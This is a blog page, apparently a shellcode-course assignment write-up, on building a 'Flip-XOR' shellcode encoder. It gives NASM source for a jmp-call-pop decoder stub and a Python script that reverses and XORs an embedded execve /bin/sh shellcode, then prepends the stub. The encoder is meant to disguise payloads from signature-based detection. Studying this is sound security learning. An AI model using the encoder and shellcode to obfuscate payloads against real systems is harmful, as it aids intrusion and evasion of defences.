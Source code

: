 ```yaml
---
title:  Assignment 4
description: Create a Custom Encoder
order: 4
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this challenge we will be creating a custom shellcode encoder, specifically what I am calling a 'Flip-XOR' encoder.  This encoder will reverse the order of the shellcode, XOR each byte with a key, then prepend a decoder stub.  Let's get started!

The first challenge is decoding such a shellcode.  The following assembly file shows how we could accomplish this:

```nasm
; decoder.nasm
;  - Decode shellcode, then pass over execution

global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi                 ; Shellcode location
        xor ecx, ecx            ; Length of shellcode
        mov cl, 7               ; ...
        mov edi, esi            ; Decode location
        add edi, ecx            ; ...
        add edi, ecx            ; ...
        dec edi                 ; ...

decode:
        xor ebx, ebx            ; Clear carry register
        mov bl, byte [esi]      ; Decode
        xor bl, 0xAA            ; ...
        mov byte [edi], bl      ; Move
        mov byte [esi], 0x90    ; Replace with nop
        inc esi                 ; Loop
        dec edi                 ; ...
        loop decode             ; ...
        jmp short Shellcode     ; Pass over execution


call_decoder:
        call decoder
        Shellcode: db 0x2a, 0x67, 0xea, 0x69, 0x23, 0x6a, 0x9b
```

As you can see, we start with a *jmp call pop* method of retrieving the address of our shellcode, then we set up our decode function with that address and the length of the shellcode.  In addition to storing the shellcode address, we also store an address to the *end* of a duplicate range *after* the shellcode, where we'll store our decoded shellcode.

The decode function takes the byte at *esi*, XORs it with the key (0xAA), moves the result to *edi*, then replaces *esi* with a NOP (0x90).  The function then loops after incrementing *esi* and decrementing *edi*.  In graphical form, we transformed this...

```
                 ESI                                           EDI
|--decoder-stub--|---encoded-shellcode---|-----------?-----------|
EIP
```
... into this ...
```
                                      ESI EDI
|--decoder-stub--|-------nop-sled--------|---decoded-shellcode---|
                 EIP
```

Great!  The next step is to build an the actual encoder, shown below:

```python
#!/usr/bin/python
# encoder.py
#  - Encode shellcode using 'Flip-XOR', then prepend decoder

import sys

if (len(sys.argv) != 1):
        print "[-] No inputs! Configure shellcode manually."
        sys.exit()

shellcode = (           # execve(/bin//sh)
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62"
"\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3"
"\x50\x89\xe2\x53\x89\xe1\x31\xc0\xb0\x0b"
"\xcd\x80"
)

key = 0xaa

length = len(shellcode)
print "Original Length: %d" % length

output = ""

# _start:
output += "\\xeb\\x1e"                  # jmp short call_decoder

# decoder:
output += "\\x5e"                       # pop esi
output += "\\x31\\xc9"                  # xor ecx, ecx
output += "\\xb1\\x%02x" % length       # mov cl, <length>
output += "\\x89\\xf7"                  # mov edi, esi
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x4f"                       # dec edi

# decode:
output += "\\x31\\xdb"                  # xor ebx, ebx
output += "\\x8a\\x1e"                  # mov bl, byte [esi]
output += "\\x80\\xf3\\x%02x" % key     # xor bl, <key>
output += "\\x88\\x1f"                  # mov byte [edi], bl
output += "\\xc6\\x06\\x90"             # mov byte [esi], 0x90
output += "\\x46"                       # inc esi
output += "\\x4f"                       # dec edi
output += "\\xe2\\xf0"                  # loop decode
output += "\\xeb\\x05"                  # jmp short Shellcode

# call_decoder:
output += "\\xe8\\xdd\\xff\\xff\\xff"   # call decoder

# Shellcode:
arr = bytearray(shellcode)
for i in range(0, length):
        # 'Flip-XOR' Encoding
        x = arr[length-1-i]
        y = x^key
        output += "\\x%02x" % y

newlength = len(output) / 4
print "Encoded Length: %d" % newlength
print "\"%s\"" % output
```

As you can see, our encoder not only encodes the provided *shellcode* with the provided *key*, it also prepends a decoder stub with the appropriate *length* and *key*.

A note on this encoder worth mentioning is that it **expands**, making use of the space after it.  This may or may not be a concern, depending on the application, but an improvement to this encoder might be eliminating the need to expand and just rearrange in-place.

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
